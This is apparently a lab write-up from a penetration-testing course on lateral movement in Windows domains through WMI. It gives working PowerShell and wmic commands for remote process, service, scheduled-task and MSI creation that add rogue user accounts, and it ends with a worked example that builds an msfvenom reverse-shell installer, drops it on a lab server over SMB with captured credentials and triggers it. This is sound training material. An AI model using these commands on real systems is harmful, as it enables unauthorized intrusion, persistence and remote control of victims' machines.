 We can also perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI). WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.

## Connecting to WMI From Powershell
Before being able to connect to WMI using Powershell commands, we need to create a *PSCredential* object with our user and password. This object will be stored in the `$credential` variable.

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:
- ***DCOM*:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
- ***Wsman*:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the `$Session` variable, which we will use throughout the room on the different techniques:
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {TARGET} -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.


## Remote Process Creation Using WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
- **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Note:
	 WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:
```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:{TARGET} process call create "cmd.exe /c calc.exe" 
```

## Remote Services Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

We can get a handle on the service and start it with the following commands:
```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

 We can stop and delete the service with the following commands:
 ```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## Remote Scheduled Tasks Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:
```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add" # Your payload

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:
  ```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

## Installing MSI packages through WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:
```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```


## Example
To complete this exercise, you will need to connect to *THMJMP2* using the credentials assigned to you. Once you have your credentials, connect to *THMJMP2* via SSH:
`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:
- **User:** ZA.TRYHACKME.COM\t1_corine.waters
- **Password:** Korine.1994

We'll show how to use those credentials to move laterally to THM-IIS using *WMI* and *MSI* packages. Feel free to try the other methods presented during this task.

We will start by creating our *MSI* *payload* with msfvenom from our attacker machine:
```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST={lateralmovement} LPORT={4445} -f msi > {myinstaller.msi}
```

We then copy the payload using *SMB* or any other method available:
```shell-session
user@AttackBox$ smbclient -c 'put {myinstaller.msi}' -U {t1_corine.waters} -W ZA '{//thmiis.za.tryhackme.com/admin$/}' {Korine.1994}
```

Since we copied our payload to the *ADMIN$* share, it will be available at `C:\Windows\` on the server. 

We start a handler to receive the reverse shell from Metasploit:
```shell-session
msf6 exploit(multi/handler) > set LHOST {lateralmovement}
msf6 exploit(multi/handler) > set LPORT {4445}
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 
```

Let's start a *WMI* session against *THMIIS* from a Powershell console:

THMJMP2: Powershell
```shell-session
PS C:\> $username = '{t1_corine.waters}';
PS C:\> $password = '{Korine.1994}';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName {thmiis.za.tryhackme.com} -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

We then invoke the Install method from the *Win32_Produc*t class to trigger the payload:

THMJMP2: Powershell
```shell-session
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\{myinstaller.msi}"; Options = ""; AllUsers = $false}
```

